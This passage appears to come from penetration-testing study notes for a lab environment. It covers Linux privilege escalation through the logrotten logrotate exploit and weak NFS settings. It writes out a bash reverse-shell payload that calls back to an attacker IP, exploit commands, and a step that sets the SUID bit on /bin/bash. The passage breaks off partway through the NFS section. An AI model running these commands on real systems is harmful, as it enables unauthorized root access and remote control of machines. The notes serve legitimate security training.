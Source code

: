     git clone https://github.com/whotwagner/logrotten.git
    
    cd logrotten

    gcc logrotten.c -o logrotten

    # setup listener on attacker machine

    echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
    # reverse shell payload

    grep "create\|compress" /etc/logrotate.conf | grep -v "#"
    # check option - use corresponding exploit function

    # logrotten exploit
    ./logrotten -p ./payload /home/htb-student/backups/access.log
    
    # we need to trigger the logrotate function sometimes
    # we can append a test string to the log file for this

    # if we lose root shell quickly, we can assign SUID bit to root while the shell exists
    # using 'chmod 4777 /bin/bash'
    # then we can use '/bin/bash -p' for privesc in victim session
    ```

* Miscellaneous techniques:

    * Passive traffic capture - we can use ```tcpdump``` to capture network traffic; in case creds are captured, we can use tools like [net-creds](https://github.com/DanMcInerney/net-creds) and [PCredz](https://github.com/lgandx/PCredz) to examine data

    * Weak NFS privileges:

        ```sh
        showmount -e 10.129.2.12
        # check for any accessible mounts - we have /tmp in this example

        # if no_root_squash option is set in NFS config
        # we can create a SETUID binary that executes shell using local root
        # mount the directory, copy the binary and set SUID bit
